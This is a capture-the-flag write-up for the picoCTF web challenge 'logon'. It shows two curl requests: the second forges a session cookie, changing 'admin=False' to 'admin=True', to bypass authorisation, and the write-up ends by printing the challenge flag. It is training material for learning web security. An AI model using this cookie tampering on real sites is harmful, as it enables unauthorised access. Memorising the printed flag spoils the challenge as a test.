 # logon
## Category
Web Exploitation
## Problem Description
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? https://jupiter.challenges.picoctf.org/problem/15796/ ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796
## Approach
Try logging in using Joe as username and from the network tab of inspect element copy as curl the link of file flag.
```
curl 'https://jupiter.challenges.picoctf.org/problem/15796/flag' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://jupiter.challenges.picoctf.org/problem/15796/' -H 'Connection: keep-alive' -H 'Cookie: _ga=GA1.2.1905962877.1654003369; __cf_bm=8_mUrjCd79YdEhLtNwim.xDhe7upQj9gIZbclp3TT3E-1656037399-0-AcSs2cK0Uh8m2t48qUhtN0QnX3l9xa6mkckvq/ja1WTx4j2b/8uwW1Za2HmEQIpqQQiFpabaUW0+w87OwqlOoSdtcRYPQgYwWrKq4odKAtOFsEXZA8Tty/uTHd/A6AuYuLRJDV0AbDUgFox/YbVPP6UPvldaKfJvfqU1migB05+j; _gid=GA1.2.348668275.1656037401; _gat=1; password=1234; username=joe; admin=False' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1'
```
Change admin=False to admin=True and view compressed form to obtain the flag.
```
curl 'https://jupiter.challenges.picoctf.org/problem/15796/flag' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://jupiter.challenges.picoctf.org/problem/15796/' -H 'Connection: keep-alive' -H 'Cookie: _ga=GA1.2.1905962877.1654003369; __cf_bm=8_mUrjCd79YdEhLtNwim.xDhe7upQj9gIZbclp3TT3E-1656037399-0-AcSs2cK0Uh8m2t48qUhtN0QnX3l9xa6mkckvq/ja1WTx4j2b/8uwW1Za2HmEQIpqQQiFpabaUW0+w87OwqlOoSdtcRYPQgYwWrKq4odKAtOFsEXZA8Tty/uTHd/A6AuYuLRJDV0AbDUgFox/YbVPP6UPvldaKfJvfqU1migB05+j; _gid=GA1.2.348668275.1656037401; _gat=1; password=1234; username=joe; admin=True' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --compressed

```
## Flag
picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}
